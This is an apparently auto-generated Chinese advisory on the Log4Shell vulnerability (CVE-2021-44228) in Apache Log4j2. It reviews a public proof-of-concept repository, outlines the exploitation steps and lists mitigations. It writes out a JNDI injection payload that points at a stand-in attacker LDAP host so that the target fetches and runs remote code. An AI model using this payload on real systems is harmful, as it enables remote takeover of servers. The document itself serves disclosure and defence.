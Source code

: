 ## CVE-2021-44228 - Apache Log4j2 Log4Shell RCE

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Apache Log4j2

**危害等级:** 高危，可能导致完全系统控制

**影响版本:** 2.0-beta9 到 2.15.0（不包括安全版本 2.12.2、2.12.3 和 2.3.1）

**利用条件:** 目标系统使用受影响版本的 Log4j2，且允许出站网络连接到攻击者的 LDAP/HTTP 服务器。

**POC 可用性:** 是

**投毒风险:** 1%

## 详情

CVE-2021-44228 (Log4Shell) 是一个存在于 Apache Log4j2 中的远程代码执行漏洞。攻击者可以通过构造特殊的日志消息，利用 JNDI 注入来执行任意代码。 

**有效性：**
根据提供的漏洞信息、搜索结果和漏洞利用代码，此漏洞的PoC代码有效。搜索结果表明该漏洞是真实存在的，并且有许多利用实例。

**投毒风险：**
分析提供的PoC代码，投毒风险很低。 
*   `LICENSE`: MIT许可，标准开源许可。 
*   `README.md`: 提供了PoC的详细信息，包括所需环境，操作步骤和WAF绕过方式等。 
*   `docker-compose.yaml`: 定义了frontend(React SPA)和backend(Spring Boot)两个服务, 其中backend使用了存在漏洞的Log4j2。 
*   `init.sh`: 这个脚本用于在攻击者机器上设置攻击环境。它编译JNDI利用所需的Java类，启动一个HTTP服务器来提供这些类，并启动一个LDAP服务器以响应JNDI查询。这个脚本是攻击的核心组成部分，但它本身的目的就是为了演示漏洞利用，不属于恶意投毒。它确实会下载编译好的文件到攻击者机器上，但这是漏洞利用的正常流程,本身不构成投毒。 但使用未经审核的脚本始终存在一定的风险，所以给了1%的风险.

**利用方式：**
1.  攻击者向目标系统发送包含恶意 JNDI 注入字符串的请求。该字符串形如`${jndi:ldap://attacker_host:ldap_port/Exploit}`。
2.  目标系统使用 Log4j2 记录该请求。由于存在漏洞，Log4j2 会解析 JNDI 字符串，并尝试通过 LDAP 协议连接到攻击者的服务器。
3.  攻击者的 LDAP 服务器返回一个指向 HTTP 服务器的响应，指示目标系统下载并执行一个 Java 类。
4.  目标系统下载并执行该 Java 类，从而实现远程代码执行。

**缓解措施：**
*   升级到 Log4j2 的安全版本 (>= 2.17.0)。
*   如果无法升级，可以设置 `log4j2.formatMsgNoLookups=true` 阻止 JNDI 查找。
*   使用 Web 应用防火墙 (WAF) 检测和阻止恶意的 JNDI 注入字符串。

**项目地址:** [Carlos-Mesquita/TPASLog4ShellPoC](https://github.com/Carlos-Mesquita/TPASLog4ShellPoC)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)